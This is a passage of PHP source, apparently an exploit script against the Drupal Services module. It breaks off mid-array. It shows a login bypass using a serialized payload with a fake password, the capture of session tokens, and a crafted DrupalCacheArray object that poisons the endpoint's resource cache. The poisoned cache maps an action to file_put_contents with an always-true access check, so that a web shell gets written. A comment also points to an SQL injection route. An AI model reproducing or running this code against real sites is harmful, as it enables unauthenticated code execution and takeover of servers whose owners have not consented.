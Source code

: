 ```php
$data = serialize($data);
$json = $browser->post(TYPE_PHP, $data);

# If this worked, the rest will as well
if(!isset($json->user))
{
    print_r($json);
    e("Failed to login with fake password");
}

# Store session and user data
$session = [
    'session_name' => $json->session_name,
    'session_id' => $json->sessid,
    'token' => $json->token
];
store('session', $session);
$user = $json->user;

# Unserialize the cached value
# Note: Drupal websites admins, this is your opportunity to fight back :)
$cache = unserialize($user->signature);

# Reassign fields
$user->pass = $user->signature_format;
unset($user->signature);
unset($user->signature_format);
store('user', $user);
if($cache === false)
{
    e("Unable to obtains endpoint's cache value");
}
x("Cache contains " . sizeof($cache) . " entries");

# Stage 2: Change endpoint's behaviour to write a shell
class DrupalCacheArray
{
    # Cache ID
    protected $cid = "services:endpoint_name:resources";
    # Name of the table to fetch data from.
    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
    protected $bin = 'cache';
    protected $keysToPersist = [];
    protected $storage = [];
    function __construct($storage, $endpoint, $controller, $action) {
        $settings = [
            'services' => ['resource_api_version' => '1.0']
        ];
        $this->cid = "services:$endpoint:resources";
        # If no endpoint is given, just reset the original values
        if(isset($controller))
        {
            $storage[$controller]['actions'][$action] = [
                'help' => 'Writes data to a file',
                # Callback function
                'callback' => 'file_put_contents',
                # This one does not accept "true" as Drupal does,
                # so we just go for a tautology
                'access callback' => 'is_string',
                'access arguments' => ['a string'],
                # Arguments given through POST
                'args' => [
                    0 => [
```